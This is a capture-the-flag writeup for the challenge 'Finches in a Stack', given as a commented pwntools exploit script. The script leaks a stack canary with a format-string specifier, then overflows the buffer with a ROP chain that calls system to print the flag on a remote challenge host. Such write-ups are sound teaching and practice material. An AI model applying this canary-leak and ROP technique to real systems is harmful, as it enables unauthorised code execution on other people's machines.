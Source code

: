 # Finches in a Stack

### Writeup by Sai, 350 points

`There's a service at [...], exploit it to get the flag.`

**NOTE:** This writeup is in the form of a commented Python script which was used in order to exploit the service remotely. 

```python
#!/usr/bin/env python3
from pwn import *
from sys import argv

REMOTE = 0
if len(argv) > 1:
	if 'r' in argv[1]:
		REMOTE = 1

context.terminal = ['tmux', 'splitw']
exe = './fias'
elf = ELF(exe)
host, port = "95.216.233.106", 29445
proc = remote(host, port) if REMOTE else process(exe)

if len(argv) > 1:
	if 'd' in argv[1]:
		DEBUG = 1
		gdb.attach(proc, '''
b *main
b *0x80492da
c
''')

# Stages
# Leak canary
# Gets overflow to system
cat_flag = 0x804a008
canary_off = "%11$p"
system = 0x8049080

# Stage 1 - leak the canary (11th offset)
proc.recv()
proc.sendline(canary_off)
data = proc.recv().split(b'you, ')[1].split(b'!')[0]
canary = int(data,16)
log.info("Canary: 0x%x " % canary)

# Stage 2 - Rop chain and also pass canary
# Call system, with return 0xdeadbeef and params '/bin/cat flag.txt' string pointer
payload  = b"a"*25
payload += p32(canary)
payload += p32(0xdeadbeef)*3
payload += p32(system)
payload += p32(0xdeadbeef)
payload += p32(cat_flag)
log.info("Payload: %s" % payload.hex())
proc.sendline(payload)
proc.interactive()
```

